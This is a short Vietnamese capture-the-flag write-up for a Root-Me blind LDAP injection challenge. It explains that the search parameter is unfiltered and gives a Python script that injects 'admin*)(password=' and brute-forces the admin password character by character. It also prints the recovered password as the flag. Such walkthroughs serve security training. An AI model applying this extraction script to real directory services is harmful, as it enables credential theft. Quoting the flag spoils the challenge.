



```diff
@@ Web-Server Challenge
```

## LDAP injection - Blind [55 Points]

* Ở site **dir** của trang web cho phép ta search một user bất kỳ, tham số được truyền bằng phương thức GET, param nằm trên đường dẫn và ta có thể inject vào đây

  

* Vậy là **ldap_search()** tìm kiếm thư mục dựa trên query của chúng ta mà không cần xác thực. Thử các ký tự đặc biệt như *****, **()** ta thấy nó không bị filter

  

* Chuẩn bị một payload để thực hiện brute-force password

  ```python
  import requests

  flag = ""
  url="http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=admin*)(password="
  for i in range(1,20):
      check = False
      for j in range(39,127):
          pw = flag + chr(j)
          r = requests.get(url=url+pw)
          if("admin" in r.text):
              flag+=chr(j)
              print(flag)
              check = True
          if(check):
              break
  print(flag)
  ```

* Kết quả ta thu được password của admin -> chính là Flag

  

* Tuy nhiên LDAP không phân biệt chữ hoa-thường, nên kết quả sẽ phải là

  ```diff
  -- dsy365gdzerzo94
  ```